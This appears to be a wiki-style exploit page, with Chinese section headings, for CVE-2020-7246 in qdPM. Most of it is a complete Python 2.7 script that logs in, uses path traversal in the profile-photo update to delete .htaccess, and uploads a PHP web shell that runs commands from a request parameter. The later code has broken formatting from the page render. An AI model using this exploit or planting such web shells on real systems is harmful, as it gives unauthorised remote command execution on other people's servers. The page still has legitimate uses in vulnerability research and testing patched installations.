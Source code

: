 <languages />

影响版本
--------

     Version: <=1.9.1

EXP
---

    # Exploit Title: qdPM 9.1 - Remote Code Execution
    # Google Dork: intitle:qdPM 9.1. Copyright © 2020 qdpm.net
    # Date: 2020-01-22
    # Exploit Author: Rishal Dwivedi (Loginsoft)
    # Vendor Homepage: http://qdpm.net/
    # Software Link: http://qdpm.net/download-qdpm-free-project-management
    # Version: <=1.9.1
    # Tested on: Windows 10 (Python 2.7)
    # CVE : CVE-2020-7246
    # Exploit written in Python 2.7
    # Tested Environment - Windows 10
    # Path Traversal + Remote Code Execution

    # Command - qdpm-exploit.py -url http://localhost/ -u user@localhost.com -p password
    # -*- coding: utf-8 -*-
    #!/usr/bin/python

    import requests
    from lxml import html
    from argparse import ArgumentParser

    session_requests = requests.session()

    def multifrm(
       userid,
       username,
       csrftoken_,
       EMAIL,
       HOSTNAME,
       uservar,
       ):
       request_1 = {
           'sf_method': (None, 'put'),
           'users[id]': (None, userid[-1]),
           'users[photo_preview]': (None, uservar),
           'users[_csrf_token]': (None, csrftoken_[-1]),
           'users[name]': (None, username[-1]),
           'users[new_password]': (None, ''),
           'users[email]': (None, EMAIL),
           'extra_fields[9]': (None, ''),
           'users[remove_photo]': (None, '1'),
           }
       return request_1


    def req(
       userid,
       username,
       csrftoken_,
       EMAIL,
       HOSTNAME,
       ):
       request_1 = multifrm(
           userid,
           username,
           csrftoken_,
           EMAIL,
           HOSTNAME,
           '.htaccess',
           )
       new = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                   , files=request_1)
       request_2 = multifrm(
           userid,
           username,
           csrftoken_,
           EMAIL,
           HOSTNAME,
           '../.htaccess',
           )
       new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                    , files=request_2)
       request_3 = {
           'sf_method': (None, 'put'),
           'users[id]': (None, userid[-1]),
           'users[photo_preview]': (None, ''),
           'users[_csrf_token]': (None, csrftoken_[-1]),
           'users[name]': (None, username[-1]),
           'users[new_password]': (None, ''),
           'users[email]': (None, EMAIL),
           'extra_fields[9]': (None, ''),
           'users[photo]': ('backdoor.php',
                            '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "

"; die; }?\>'

`                       , 'application/octet-stream'),`
`      }`
`  upload_req = session_requests.post(HOSTNAME`
`          + 'index.php/myAccount/update', files=request_3)`

def main(HOSTNAME, EMAIL, PASSWORD):

`  result = session_requests.get(HOSTNAME + '/index.php/login')`
`  login_tree = html.fromstring(result.text)`
`  authenticity_token = \`
`      list(set(login_tree.xpath("//input[@name='login[_csrf_token]']/@value"`
`           )))[0]`
`  payload = {'login[email]': EMAIL, 'login[password]': PASSWORD,`
`             'login[_csrf_token]': authenticity_token}`
`  result = session_requests.post(HOSTNAME + '/index.php/login',`
`                                 data=payload,`
`                                 headers=dict(referer=HOSTNAME`
`                                 + '/index.php/login'))`
`  account_page = session_requests.get(HOSTNAME + 'index.php/myAccount'`
`          )`
`  account_tree = html.fromstring(account_page.content)`
`  userid = account_tree.xpath("//input[@name='users[id]']/@value")`
`  username = account_tree.xpath("//input[@name='users[name]']/@value")`
`  csrftoken_ = \`
`      account_tree.xpath("//input[@name='users[_csrf_token]']/@value")`
`  req(userid, username, csrftoken_, EMAIL, HOSTNAME)`
`  get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')`
`  final_tree = html.fromstring(get_file.content)`
`  backdoor = \`
`      final_tree.xpath("//input[@name='users[photo_preview]']/@value")`
`  print 'Backdoor uploaded at - > ' + HOSTNAME + '/uploads/users/' \`
`      + backdoor[-1] + '?cmd=whoami'`

if __name__ == '__main__':

`  parser = \`
`      ArgumentParser(description='qdmp - Path traversal + RCE Exploit'`
`                     )`
`  parser.add_argument('-url', '--host', dest='hostname',`
`                      help='Project URL')`
`  parser.add_argument('-u', '--email', dest='email',`
`                      help='User email (Any privilege account)')`
`  parser.add_argument('-p', '--password', dest='password',`
`                      help='User password')`
`  args = parser.parse_args()`

`  main(args.hostname, args.email, args.password)`

</pre>
